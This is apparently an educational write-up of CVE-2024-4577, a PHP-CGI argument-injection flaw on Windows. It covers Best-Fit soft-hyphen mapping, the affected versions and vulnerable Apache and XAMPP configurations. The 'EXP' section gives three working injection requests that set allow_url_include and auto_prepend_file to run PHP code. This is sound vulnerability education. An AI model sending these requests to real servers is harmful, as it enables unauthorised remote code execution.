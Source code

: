 # PHP CGI RCE (CVE-2024-4577)

The PHP programming language, during its design, neglected the **Best-Fit character encoding** conversion feature inherent in Windows operating systems. This oversight allows unauthenticated attackers to bypass protections from the old CVE-2012-1823 by using specific character sequences to perform attacks such as parameter injection, subsequently executing arbitrary code on remote PHP servers.

**Scope of Impact** This vulnerability affects **all PHP versions installed on Windows operating systems.** For detailed information, refer to the table below:

* PHP 8.3 < 8.3.8
* PHP 8.2 < 8.2.20
* PHP 8.1 < 8.1.29

## How to Determine if You Are Vulnerable to Attack?&#x20;

For common setups involving the Apache HTTP Server combined with PHP, website administrators can confirm whether their server is vulnerable using the two methods listed in this article. Notably, Scenario Two is also the default setting during the installation of XAMPP for Windows, implying that all versions of XAMPP for Windows are inherently affected by this vulnerability.

At the time of writing this article, it has been verified that unauthorized attackers can execute arbitrary code on remote servers running Windows operating systems in the following language environments:

* Traditional Chinese (Code page 950)
* Simplified Chinese (Code page 936)
* Japanese (Code page 932)

For other Windows operating systems operating in English, Korean, and Western European languages, due to the extensive use of PHP and the inability to comprehensively list and rule out all exploitable scenarios, it is still recommended that users thoroughly inventory their assets, verify usage scenarios, and update PHP to the latest version to ensure maximum security.

## Evil Soft Hyphen

A soft hyphen (represented in HTML as `&shy;`) is an invisible character used to indicate an optional hyphenation point within a line of text. In web development, the soft hyphen is often used in long words or URLs to allow for automatic line breaks at the edge of the display without altering the actual content or meaning of the text.

## What is Common gateway Interface?

The Common Gateway Interface (CGI) is a standard protocol that defines how web servers can interact with **executable programs installed on a server that generate web pages dynamically**. Such programs are called CGI scripts; they can be written in any programming language, including PHP.

In the context of PHP and web development, **CGI acts as a bridge** between the PHP script and the web server, allowing the server to pass data, like form inputs or request details, to the PHP script. The PHP script processes this data and sends back the generated HTML (or other data types) to the server, which then sends it to the client's browser.

Example:

&#x20;querystrings are parsed and passed to the PHP interpreter on the command line - a request such as as [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar\&ref=labs.watchtowr.com) might be executed as `php.exe -cgi.php foo=bar`

## So what?

Here are two invocations of php.exe, one malicious and one benign. Can you spot the difference?

&#x20;![](<../.gitbook/assets/image (7).png>)

one of them is soft hyphen(0xAD) and one of them is "dash"(0x2D)

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

While they both appear the same to you and me, they have vastly different meanings to the OS.

## Best fit mapping

PHP will apply what’s known as a ‘best fit’ mapping, and helpfully assume that, when the user entered a soft hyphen, they actually **intended to type a **_**real**_** hyphen**, and interpret it as such. Herein lies our vulnerability - if we supply a CGI handler with a **soft hyphen (0xAD)**, the CGI handler won’t feel the need to escape it, and will pass it to PHP. **PHP, however, will interpret it as if it were a **_**real**_** hyphen,** which allows an attacker to sneak extra command line arguments, which begin with hyphens, into the PHP process.

## Scenario One: Setting PHP to run under CGI mode In the Apache Httpd configuration file

when HTTP requests are directed to the PHP-CGI executable using the Action directive, this setup is affected by the vulnerability. Common configurations include, but are not limited to:

```
AddHandler cgi-script .php
Action cgi-script "/cgi-bin/php-cgi.exe"
```

or

```
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php-cgi
</FilesMatch>

Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
```

## Scenario Two: Exposing the PHP executable to the public (Default installation setting in XAMPP)

Even if PHP is not configured to run under CGI mode, simply exposing the PHP executable in the CGI directory also subjects it to this vulnerability. Common situations include, but are not limited to:

* Copying php.exe or php-cgi.exe to the /cgi-bin/ directory.
* Exposing the PHP installation directory externally through ScriptAlias, such as:

```
ScriptAlias /php-cgi/ "C:/xampp/php/"
```

## Different type of EXP

### EXP 1

SSRF

{% code overflow="wrap" %}
```
http://PhpVulnEnv/php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+-d+allow_url_include%3d1+-d+auto_prepend_file%3d"data:XCANWIN/XCANWIN;,PD9waHAgZGllKCJUZSIuInNUIik7Pz4g"
```
{% endcode %}

### EXP 2

```
POST /php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: PhpVulnEnv

<?php phpinfo();?>
```

### EXP 3

```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: PhpVulnEnv
REDIRECT-STATUS: XCANWIN

<?php phpinfo();?>
```

## Demo

{% file src="../.gitbook/assets/CVE Demo (2).mp4" %}
Demo Video
{% endfile %}

## Interview Question

**1) Why is XAMPP being infected the most in this CVE?**

**2) What is best fit mapping how it cause this Vulnerability?**

**3) Which setting you have to modify to fix this issue?**

## Author

[Ikonw](https://github.com/Ik0nw)

## Reference

{% embed url="https://mp.weixin.qq.com/mp/wappoc_appmsgcaptcha?poc_token=HFj3amajFr1bUBstRri7lGhHA70Gus9G7sywHr1p&target_url=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F93TuxZ4AVqHXcnJw3M4hRg" %}

{% embed url="https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/" %}

{% embed url="https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability/" %}

